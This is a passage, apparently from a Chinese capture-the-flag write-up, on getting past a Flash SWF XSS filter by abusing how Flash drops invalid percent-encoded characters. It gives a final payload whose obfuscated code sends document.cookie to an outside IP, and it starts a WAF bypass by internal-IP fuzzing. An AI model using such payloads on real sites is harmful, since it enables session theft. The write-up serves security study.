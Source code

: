 如果你需要将你的vector发送到藏在防火墙的后面受害者（flashvars­可以使用#来达到隐藏自己的目的）又或者想突破一些客户端的XSS防御机制这个方法将会十分的凑效。这一切都基于flash会丢弃一些被URL编码过的无效字符。

(1)flash会丢弃两个出现在%后面的无效十六进制字符（([^0-9a-fA-F])），比如：

```
"%X" or "%="

```

(2)如果在%后面出现一个有效和一个非有效十六进制字符，就会丢弃三个字符，比如：

```
"%AX" or "%A&"

```

这样处理后就能 bypass 那个 delete 了，因为在 for 里时把 %X 带上了，最后在 call 的时候 flash 会丢弃这个

然后在用这篇文章里的方法

```
http://drops.wooyun.org/tips/2924

```

带上

```
alert(1))}catch(e){alert(100)}//

```

当然直接用弹不出来（血的教训，卡了好久，审查元素看了下发现语句不一样＝。＝ 所以最后可以这样弹

```
%Xdebug=\%22));alert(1);}catch(e){alert(100)}//

```

最后 payload 如下

```
http://8dd25e24b4f65229.alictf.com/swf.swf?%Xdebug=\%22));eval(String.fromCharCode(101,118,97,108,40,34,118,97,114,32,120,61,110,101,119,32,73,109,97,103,101,40,41,59,120,46,115,114,99,61,39,104,116,116,112,58,47,47,52,53,46,53,53,46,49,51,53,46,49,51,57,47,120,46,112,104,112,63,99,111,111,107,105,101,61,39,43,101,115,99,97,112,101,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,34,41));}catch(e){alert(100)}//

```

0x06 渗透绕过WAF2
=============

* * *

绕过云WAF2 题目显示说不在内网，所以第一步就是先设置一个内网 ip 咯 接下来看 writeup

提示需要内部访问，于是 fuzz IP：

*   192.168.x.x
*   10.x.x.x
*   172.16.x.x
